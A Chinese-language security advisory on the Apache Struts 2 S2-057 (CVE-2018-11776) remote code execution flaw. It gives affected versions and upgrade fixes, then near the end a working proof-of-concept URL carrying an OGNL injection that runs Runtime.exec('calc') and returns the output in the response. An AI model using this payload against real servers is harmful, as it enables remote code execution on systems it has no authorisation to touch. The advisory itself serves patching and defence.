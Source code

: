 # 漏洞预警 \| Struts 2 远程代码执行漏洞（S2-057 / CVE-2018-11776）

## 事件来源

Struts 2 是一个基于 MVC 设计模式的Web应用框架。其官方在 8 月 22 号发出安全通告及补丁，对其存在的一个远程代码执行漏洞进行修复：

[https://cwiki.apache.org/confluence/display/WW/S2-057](https://cwiki.apache.org/confluence/display/WW/S2-057)

该漏洞编号为 S2-057，CVE 编号为 CVE-2018-11776，当在struts2开发框架中启用泛namespace功能，并且使用特定的result时，会触发远程代码执行漏洞。

由来自 Semmle 安全研究团队的成员 Man Yue Mo 发现并报告。

## 漏洞描述

当没有为基础 XML 配置中定义的 result 设置 namespace ，且其上层的 action 配置没有 namespace 或使用通配符 namespace时，即可能造成远程代码执行漏洞。

同样地，当使用没有设置 value 和 action 的 url 标签，且其上层的 action 配置没有 namespace 或使用通配符 namespace时，也可能会造成远程代码执行漏洞。

漏洞的发现者 Man Yue Mo 写了一篇博客，较详细地分享了他发现这个漏洞的过程和方法：

[https://lgtm.com/blog/apache\_struts\_CVE-2018-11776](https://lgtm.com/blog/apache_struts_CVE-2018-11776)

漏洞作者是在调试分析 Struts 2 历史漏洞 S2-032 , S2-033 和 S2-037 时发现的此漏洞，并且此漏洞也与 OGNL 表达式构造相关。

下图为漏洞作者利用此漏洞成功执行任意代码的截图：

![](../.gitbook/assets/s2-057-1.png)

## 影响范围

Struts 2.3 - Struts 2.3.34

Struts 2.5 - Struts 2.5.16

实际场景中存在一定局限性，需要满足一定条件。

## 解决方案

对 Structs 2 版本进行升级以更新安全补丁：

Struts 2.3.x 版本升级到 2.3.35

Struts 2.5.x 版本升级到 2.5.17

漏洞验证![](../.gitbook/assets/s2057-2.png)传入OGNL表达式${2333+2333}![](../.gitbook/assets/s2057-3.png)  
成功带入执行函数，并执行![](../.gitbook/assets/s2057-4.png)返回结果至URL

POC:

\[[http://www.canyouseeme.cc:8080/struts2-showcase/%24{\(%23\_memberAccess\["allowStaticMethodAccess"\]%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime\(\).exec\('calc'\).getInputStream\(\)%2c%23b%3dnew+java.io.InputStreamReader\(%23a\)%2c%23c%3dnew++java.io.BufferedReader\(%23b\)%2c%23d%3dnew+char\[51020\]%2c%23c.read\(%23d\)%2c%23jas502n%3d+%40org.apache.struts2.ServletActionContext%40getResponse\(\).getWriter\(\)%2c%23jas502n.println\(%23d+\)%2c%23jas502n.close\(\)\)}/actionChain1.action\]\(http://www.canyouseeme.cc:8080/struts2-showcase/%24{\(%23\_memberAccess\["allowStaticMethodAccess"\]%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime\(\).exec\('calc'\).getInputStream\(\)%2c%23b%3dnew+java.io.InputStreamReader\(%23a\)%2c%23c%3dnew++java.io.BufferedReader\(%23b\)%2c%23d%3dnew+char\[51020\]%2c%23c.read\(%23d\)%2c%23jas502n%3d+%40org.apache.struts2.ServletActionContext%40getResponse\(\).getWriter\(\)%2c%23jas502n.println\(%23d+\)%2c%23jas502n.close\(\)\)}/actionChain1.action](http://www.canyouseeme.cc:8080/struts2-showcase/%24{%28%23_memberAccess["allowStaticMethodAccess"]%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime%28%29.exec%28'calc'%29.getInputStream%28%29%2c%23b%3dnew+java.io.InputStreamReader%28%23a%29%2c%23c%3dnew++java.io.BufferedReader%28%23b%29%2c%23d%3dnew+char[51020]%2c%23c.read%28%23d%29%2c%23jas502n%3d+%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getWriter%28%29%2c%23jas502n.println%28%23d+%29%2c%23jas502n.close%28%29%29}/actionChain1.action]%28http://www.canyouseeme.cc:8080/struts2-showcase/%24{%28%23_memberAccess["allowStaticMethodAccess"]%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime%28%29.exec%28'calc'%29.getInputStream%28%29%2c%23b%3dnew+java.io.InputStreamReader%28%23a%29%2c%23c%3dnew++java.io.BufferedReader%28%23b%29%2c%23d%3dnew+char[51020]%2c%23c.read%28%23d%29%2c%23jas502n%3d+%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getWriter%28%29%2c%23jas502n.println%28%23d+%29%2c%23jas502n.close%28%29%29}/actionChain1.action)\)

靶机测试

[https://github.com/jas502n/St2-057/blob/master/README.md](https://github.com/jas502n/St2-057/blob/master/README.md)

## 分析文章

S2-057 技术分析[ https://paper.seebug.org/682/](https://paper.seebug.org/682/)

